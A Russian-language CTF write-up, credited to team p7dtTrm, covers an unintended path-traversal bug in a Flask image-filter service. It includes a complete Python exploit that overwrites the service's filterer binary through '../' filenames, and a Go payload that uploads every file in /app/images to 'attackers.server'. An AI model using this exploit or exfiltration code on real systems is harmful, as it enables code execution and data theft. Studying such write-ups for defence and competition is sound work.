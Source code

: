 ## Unintended сплойты

### Возможность переписать бинарь filterer на что угодно

можно заметить, что в обработчике `/apply_filter` никак не проверяется название файла, а метод `FileStorage.save` ([дока werkzeug](https://werkzeug.palletsprojects.com/en/stable/datastructures/#werkzeug.datastructures.FileStorage.save)) сохраняет файл по любому пути, никак не защищая от возможности переписать существующий файл.
```python
filename = request.form["filename"]
imagefile = request.files.get("image", "")
print(imagefile,file=sys.stderr)
if imagefile is None:
    return "<p1>Undefined</p1>"
usr = logged_users.get(cock)
if filename == "":
    return "<p1>Undefined filename</p1>"
imagefile.save("./images/" + usr + "/" + filename)
```

это позволяет переписать бинарь filterer на что-то своё. далее, этот подменённый бинарь будет запускаться при каждом использовании `/apply_filter`, в том числе при проверке чекером.

мы написали такой скрипт на go; он отправляет все файлы из `/app/images` к нам на сервер:
```go
package main

import (
	"bytes"
	"io"
	"mime/multipart"
	"net/http"
	"os"
	"path/filepath"
)

func UploadFile(url string, paramName string, filePath string) error {
	file, err := os.Open(filePath)
	if err != nil {
		return err
	}
	defer file.Close()
	body := &bytes.Buffer{}
	writer := multipart.NewWriter(body)
	part, err := writer.CreateFormFile(paramName, filepath.Base(filePath))
	if err != nil {
		return err
	}
	_, err = io.Copy(part, file)
	err = writer.Close()
	if err != nil {
		return err
	}
	request, err := http.NewRequest("POST", url, body)
	request.Header.Add("Content-Type", writer.FormDataContentType())
	client := &http.Client{}
	response, err := client.Do(request)
	if err != nil {
		return err
	}
	defer response.Body.Close()
	return nil
}

func main() {
	_ = filepath.Walk("/app/images", func(path string, info os.FileInfo, err error) error {
		if err == nil {
			UploadFile("http://attackers.server:5000", "meow", path)
		}
		return nil
	})
}
```


сплойт для загрузки бинаря и его запуска:
```python
import requests, sys, random, string

ip = sys.argv[1]
letters = string.ascii_lowercase

username = "".join(random.choice(letters) for i in range(13))
password = "".join(random.choice(letters) for i in range(13))

login_data = {"username": username, "password": password}

s = requests.Session()
s.post(f"http://{ip}:6969/register", data=login_data)
s.post(f"http://{ip}:6969/login", data=login_data)

filename = "../../../../app/filterer/filterer"

resp = s.post(f"http://{ip}:6969/apply_filter", data={"filter": "black", "filename": filename}, files={'image': open("./dumper", "rb").read()})
print(resp.text)

s.post(f"http://{ip}:6969/apply_filter", data={"filter": "black", "filename": "flag"}, files={'image':"".join(random.choice(letters) for i in range(24))})
```

*от команды p7dtTrm*

